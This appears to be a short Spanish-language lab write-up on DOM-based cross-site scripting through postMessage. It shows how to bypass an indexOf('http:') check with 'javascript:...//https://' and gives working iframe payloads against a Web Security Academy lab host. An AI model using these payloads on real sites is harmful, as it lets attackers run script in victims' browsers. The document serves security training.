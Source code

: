 Hay un script en la pagina principal

En este caso, como el evento, espera una URL, podemos hacer uso del siguiente comando, para que atraves de hipervinculos, podamos inyectar el siguiente comando:
javascript:alert(0)

Pero como el script nos esta haciendo una validacion con indexOf, debemos de saber como funciona eso, para ello hacemos lo siguiente:
```html
"https://".indexOf('http:') => da -1

Pero si haceos lo siguiente, estamos comentando todo despues del codigo malicioso:

"javascript:alert(0)//https://probando.com".indexOf('http:') -> 

Entonces desde la consola, con hacemos lo siguiente:

postMessage("javascript:alert(0)//https://probando.com")

```

Entonces realizamos el ataque:

```html

<iframe width=600px height=600px src="https://burpsuite.com" onload='this.contentWindow.postMessage("javascript:alert(0)//https://probando.com","*")'></iframe>

<iframe width=600px height=600px src="https://burpsuite.com" onload='this.contentWindow.postMessage("javascript:print()//https://probando.com","*")'></iframe>

<iframe src="https://0a5600aa032c615680df3a80007b0076.web-security-academy.net/" onload='this.contentWindow.postMessage("javascript:print()//http://probando.com","*")'></iframe>

```
